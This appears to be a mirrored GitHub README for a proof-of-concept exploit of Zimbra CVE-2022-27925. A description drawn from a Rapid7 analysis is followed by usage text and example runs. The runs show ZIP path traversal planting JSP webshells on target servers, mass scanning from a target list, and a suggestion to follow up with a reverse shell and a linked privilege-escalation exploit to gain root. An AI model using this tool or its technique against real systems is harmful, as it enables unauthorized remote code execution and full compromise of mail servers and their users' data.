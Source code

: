 # CVE-2022-27925

Zimbra CVE-2022-27925 PoC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Josexv1](https://github.com/Josexv1) |
| Url      | [https://github.com/Josexv1/CVE-2022-27925](https://github.com/Josexv1/CVE-2022-27925)                                               |
| Stars    | 37                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-27925* exploit* poc* zimbra

</details>

## Readme

# CVE-2022-27925

# Description
On May 10, 2022, Zimbra released versions 9.0.0 patch 24 and 8.8.15 patch 31 to address multiple vulnerabilities in Zimbra Collaboration Suite, including CVE-2022-27924 (which we wrote about previously) and CVE-2022-27925.

Originally, Zimbra called CVE-2022-27925 an authenticated path-traversal attack, where an administrative user could write files into any directory on the filesystem as the Zimbra account. Because it was originally thought to be an administrator-only attack, NVD assigned it a CVSS base score of 7.8. Later, Volexity noticed that attackers exploiting this vulnerability had found a way to bypass the administrative requirements, and wrote about it on August 10, 2022. This new authentication bypass got a new identifier – CVE-2022-37042.

By combining the original path-traversal vulnerability and new authentication bypass, attackers can remotely compromise a Zimbra Collaboration Suite system via the administrator port (by default, 7071) anonymously. Combined with a currently unpatched privilege escalation vulnerability that we recently wrote about and wrote an exploit for, these three vulnerabilities lead to remote command execution as the root user on unpatched systems.

Although the public advisories don’t mention it, according to our analysis, Zimbra Collaboration Suite Network Edition (the paid edition) is vulnerable, and the Open Source Edition (free) is not (since it does not have the vulnerable mboximport endpoint). Vulnerable versions are:

    Zimbra Collaboration Suite Network Edition 9.0.0 Patch 23 (and earlier)
    Zimbra Collaboration Suite Network Edition 8.8.15 Patch 30 (and earlier)

These vulnerablities (and others in Zimbra) are being targeted for widespread exploitation in the wild, and should therefore be patched or taken offline as soon as possible. If you suspect you’ve been compromised, Zimbra provides steps to rebuild your Zimbra Collaboration Suite server from scratch on the latest patch without losing data.

Source: https://attackerkb.com/topics/dSu4KGZiFd/cve-2022-27925/rapid7-analysis

## Usage
```
 _____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925

usage: exploit.py [-h] [-t TARGET] [-l LIST]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URl with protocol HTTPS
  -l LIST, --list LIST  List of targets
```

# Example run

```
root@root# python exploit.py -t zimbra.example.com
_____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925

[!] Testing URL: https://zimbra.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/BQOQBN.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux

root@root# python exploit.py -l targets.txt

 _____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925

[!] Testing URL: https://patched.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Testing URL: https://zimbra.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Testing URL: https://patched.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable

root@root# .
```

# Root the box!

To root the box you can call a reverse shell, and then use [Slaper's LPE](https://github.com/darrenmartyn/zimbra-slapper)



## Get the content

```
git clone https://github.com/Josexv1/CVE-2022-27925
cd CVE-2022-27925
```

{% embed url="https://github.com/Josexv1/CVE-2022-27925" %}

<figure><img src="https://avatars.githubusercontent.com/u/12077848?v=4" alt=""><figcaption><p>Josexv1</p></figcaption></figure>
